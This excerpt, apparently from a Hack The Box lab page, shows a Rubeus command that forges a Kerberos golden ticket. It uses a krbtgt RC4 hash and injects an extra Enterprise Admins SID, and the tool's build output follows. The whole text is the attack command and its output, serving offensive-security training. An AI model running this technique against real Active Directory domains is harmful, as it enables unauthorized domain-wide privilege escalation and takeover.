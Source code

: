 
## Creating a Golden Ticket with Rubeus


```bash

PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt



______        _                      

(_____ \      | |                    

_____) )_   _| |__  _____ _   _  ___

|  __  /| | | |  _ \| ___ | | | |/___)

| |  \ \| |_| | |_) ) ____| |_| |___ |

|_|   |_|____/|____/|_____)____/(___/



v2.0.2



[*] Action: Build TGT



[*] Building PAC



[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)

[*] SID            : S-1-5-21-2806153819-209893948-922872689

[*] UserId         : 500

[*] Groups         : 520,512,513,519,518

[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519

[*] ServiceKey     : 9D765B482771505CBE97411065964D5F

[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5

[*] KDCKey         : 9D765B482771505CBE97411065964D5F

[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5

[*] Service        : krbtgt

[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL



[*] Generating EncTicketPart

```